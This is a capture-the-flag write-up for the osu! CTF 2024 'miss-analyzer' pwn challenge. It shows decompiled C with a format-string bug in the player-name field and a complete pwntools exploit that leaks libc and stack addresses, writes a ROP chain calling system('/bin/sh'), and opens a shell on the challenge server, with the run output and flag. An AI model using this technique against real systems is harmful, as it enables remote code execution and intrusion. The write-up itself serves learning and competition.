 <font face="Cambria" size="25">Writeup: Pwn Challenge - miss-analyzer </font>

<font face="Cambria" size="25">Challenge Infomation </font>

I bet you can't beat a single one of my plays!
binary: https://github.com/Code002016/PWN-CTF-2024/blob/main/Osu%20ctf/miss-analyzer/analyzer
server: nc chal.osugaming.lol 7273

<font face="Cambria" size="25">Analysis </font>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *v3; // rbx
  char v5; // [rsp+15h] [rbp-14Bh]
  __int16 v6; // [rsp+16h] [rbp-14Ah]
  char *lineptr; // [rsp+18h] [rbp-148h] BYREF
  size_t n; // [rsp+20h] [rbp-140h] BYREF
  void *ptr; // [rsp+28h] [rbp-138h] BYREF
  __int64 v10; // [rsp+30h] [rbp-130h] BYREF
  void *v11; // [rsp+38h] [rbp-128h] BYREF
  char format[264]; // [rsp+40h] [rbp-120h] BYREF
  unsigned __int64 v13; // [rsp+148h] [rbp-18h]

  v13 = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  while ( 1 )
  {
    puts("Submit replay as hex (use xxd -p -c0 replay.osr | ./analyzer):");
    lineptr = 0LL;
    n = 0LL;
    if ( getline(&lineptr, &n, stdin) <= 0 )
      break;
    v3 = lineptr;
    v3[strcspn(lineptr, "\n")] = 0;
    if ( !*lineptr )
      break;
    v10 = hexs2bin(lineptr, &ptr);
    v11 = ptr;
    if ( !v10 )
    {
      puts("Error: failed to decode hex");
      return 1;
    }
    puts("\n=~= miss-analyzer =~=");
    v5 = read_byte(&v11, &v10);
    if ( v5 )
    {
      switch ( v5 )
      {
        case 1:
          puts("Mode: osu!taiko");
          break;
        case 2:
          puts("Mode: osu!catch");
          break;
        case 3:
          puts("Mode: osu!mania");
          break;
      }
    }
    else
    {
      puts("Mode: osu!");
    }
    consume_bytes((__int64)&v11, (__int64)&v10, 4);
    read_string((__int64)&v11, (__int64)&v10, format, 0xFFu);
    printf("Hash: %s\n", format);
    read_string((__int64)&v11, (__int64)&v10, format, 0xFFu);
    printf("Player name: ");
    printf(format);
    putchar(10);
    read_string((__int64)&v11, (__int64)&v10, format, 0xFFu);
    consume_bytes((__int64)&v11, (__int64)&v10, 10);
    v6 = read_short((__int64)&v11, (__int64)&v10);
    printf("Miss count: %d\n", (unsigned int)v6);
    if ( v6 )
      puts("Yep, looks like you missed.");
    else
      puts("You didn't miss!");
    puts("=~=~=~=~=~=~=~=~=~=~=\n");
    free(lineptr);
    free(ptr);
  }
  return 0;
}```

Vulnerability:
https://github.com/Code002016/PWN-CTF-2024/blob/main/Osu%20ctf/miss-analyzer/image/Screenshot%202024-03-05%20201043.png
The program reads the output from the following command "xxd -p -c0 replay.osr | ./analyzer" to get the hash, player name, etc...
At first, when doing this challenge, I was quite stuck because I used another person's osu replay file with a quite short player name so I could almost only leak information but could not record it, so I downloaded osu to play and do it myself. Create a record with playername "code016hiro1901" with 15 writable characters.
The formatted position is Player name, but Osu allows creating a player name that is not too long so it cannot be written much, however we can take advantage of the hash to write it.




```python
from pwn import *
context.log_level = 'info'
import shutil
shutil.copyfile('code016hiro1901 playing Rocket Start - Sushi Blast (Shmiklak) [Normal] (2024-03-02_20-14).osr', "temp")
import subprocess

e = context.binary = ELF('./analyzer', checksec=False)
libc = ELF('libc.so.6')

# lib = e.libc
# r= e.process()

r= remote("chal.osugaming.lol", 7273)
  
def getoutput():
    output = subprocess.check_output(['xxd', '-p', '-c0', 'temp.txt'])
    output = output.decode('utf8')
    output = output.replace('\n', '')
    return output.encode()

def setup_payload(fmt_str, write_stack):
    with open('temp', 'rb') as f_input:
        text = f_input.read() 
        modified_text = text.replace(b'code016hiro1901', fmt_str.ljust(15, b"\x00"))
        modified_text = modified_text.replace(b'317233ec6c79498a79e36712804078ce', write_stack)
        with open('temp.txt', 'wb') as f_output:
            f_output.write(modified_text)   

exit_got=0x404070

setup_payload(b':%51$p%6$p%85$p', flat(b"a"*32))

payload = getoutput()

# pause()
r.sendlineafter(b"./analyzer):\n",payload)
r.recvuntil(b":0x")

leak= int(r.recv(12),16)
base_libc= leak - 0x2cd90
info(f"base_libc: {hex(base_libc)}")

r.recvuntil(b"0x")
overwrite = int(r.recv(12),16)
info(f"overwrite: {hex(overwrite)}")

retn = overwrite - 272

system_libc = base_libc + 0x7fd5b5b26d70-0x7fd5b5ad3000
binsh_libc = base_libc + 0x7fd5b5cae678-0x7fd5b5ad3000
pop_rdi_ret = base_libc+0x00007f1bc0f2b3e5-0x7f1bc0efe000
ret = pop_rdi_ret+1
log.info("retn: %#x" %retn)

log.info("system_libc: %#x" %system_libc)
log.info("binsh_libc: %#x" %binsh_libc)
log.info("pop_rdi_ret: %#x" %pop_rdi_ret)

def write_addr_1byte(value, retn):
    for i in range(6):
        fmt = f"%{value&0xff}c%17$hhn".encode().ljust(15,b"\x00" )
        print(b"payload: "+ fmt)
        # info(f"retn: {hex(retn)}")
        # info(f"value: {hex(value&0xff)}")
        setup_payload(fmt, flat(b"a"*24, retn))
        payload= getoutput()
        r.sendlineafter(b"./analyzer):\n",payload)
        if(value !=0):
            value = value >> 8
        retn+=1  

def write_addr(value, retn):
    for i in range(3):
        fmt =f"%{value&0xffff}c%17$hn".encode().ljust(15,b"\x00" )
        print(b"payload: "+ fmt)
        info(f"retn: {hex(retn)}")
        setup_payload(fmt, flat(b"a"*24, retn))
        payload= getoutput()
        r.sendline(payload)
        value = value >> 16
        retn+=2  

# pause()
write_addr_1byte(ret, retn)
retn+=8
write_addr_1byte(pop_rdi_ret, retn)
retn+=8
write_addr_1byte(binsh_libc, retn)
retn+=8
write_addr_1byte(system_libc, retn)

# r.recv(5000)
# setup_payload(b"a", b"a")
# payload= getoutput()
# gdb.attach(r, 
    # f"""b*{retn}
    # n
    # """)
    
# pause()
r.sendlineafter(b"./analyzer):\n",b"3")

r.interactive()

# osu{1_h4te_c!!!!!!!!}
```

$ python3 solve.py
[*] '/mnt/c/Users/Tuan/OneDrive/Desktop/pwn/2024/Osu ctf/miss-analyzer/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.osugaming.lol on port 7273: Done
[*] base_libc: 0x7f721a43d000
[*] overwrite: 0x7fff1d2c1f18
[*] retn: 0x7fff1d2c1e08
[*] system_libc: 0x7f721a490d70
[*] binsh_libc: 0x7f721a618678
[*] pop_rdi_ret: 0x7f721a46a3e5
b'payload: %230c%17$hhn\x00\x00\x00'
b'payload: %163c%17$hhn\x00\x00\x00'
b'payload: %70c%17$hhn\x00\x00\x00\x00'
b'payload: %26c%17$hhn\x00\x00\x00\x00'
b'payload: %114c%17$hhn\x00\x00\x00'
b'payload: %127c%17$hhn\x00\x00\x00'
b'payload: %229c%17$hhn\x00\x00\x00'
b'payload: %163c%17$hhn\x00\x00\x00'
b'payload: %70c%17$hhn\x00\x00\x00\x00'
b'payload: %26c%17$hhn\x00\x00\x00\x00'
b'payload: %114c%17$hhn\x00\x00\x00'
b'payload: %127c%17$hhn\x00\x00\x00'
b'payload: %120c%17$hhn\x00\x00\x00'
b'payload: %134c%17$hhn\x00\x00\x00'
b'payload: %97c%17$hhn\x00\x00\x00\x00'
b'payload: %26c%17$hhn\x00\x00\x00\x00'
b'payload: %114c%17$hhn\x00\x00\x00'
b'payload: %127c%17$hhn\x00\x00\x00'
b'payload: %112c%17$hhn\x00\x00\x00'
b'payload: %13c%17$hhn\x00\x00\x00\x00'
b'payload: %73c%17$hhn\x00\x00\x00\x00'
b'payload: %26c%17$hhn\x00\x00\x00\x00'
b'payload: %114c%17$hhn\x00\x00\x00'
b'payload: %127c%17$hhn\x00\x00\x00'
[*] Switching to interactive mode
Error: failed to decode hex
$ ls
flag.txt
run
$ cat flag.txt
osu{1_h4te_c!!!!!!!!}
[*] Got EOF while reading in interactive
$
